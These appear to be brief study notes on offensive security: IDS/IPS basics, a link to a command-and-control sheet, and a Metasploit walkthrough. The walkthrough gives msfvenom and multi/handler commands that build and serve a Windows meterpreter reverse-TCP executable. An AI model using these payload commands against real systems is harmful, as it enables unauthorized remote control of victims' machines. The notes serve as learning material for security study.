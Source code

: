 IDS only detects and logs.
IPS actively blocks intruders.

SNORT IDS/IPS

Mostly used as IDS.

# Command and Control

also called **C2** and **C & C**.

https://docs.google.com/spreadsheets/d/1b4mUxa6cDQuTV2BPC6aA-GR4zGZi0ooPYtBe4IgPsSc/edit?pli=1&gid=0#gid=0

---

# Metasploit

**Payload**, the code to be executed on the victim machine.

```bash
msfconsole
```

```bash
msfvenom -p <payload> LHOST=<your_ip> LPORT=<your_port> -f <format> -o <filename>
```

`msfvenom` tool used to generate payloads.

-p used to specify type of payload. (ie reverse shell)
-f format of the file (exe, elf, raw)


```bash
msfvenom -p windows/meterpreter/reverse_tcp LHOST=<myip> LPORT=4444 -f exe -o payload.exe
```

generates the payload.

```bash
use multi/handler # inside metasploit console
set payload windows/meterpreter/reverse_tcp
show options

```

with no antivirus for windows.

create tmp website
```
python -m http.server 8080
```

You have to get the payload and run it on windows. Now you have complete access to the windows machine.

---
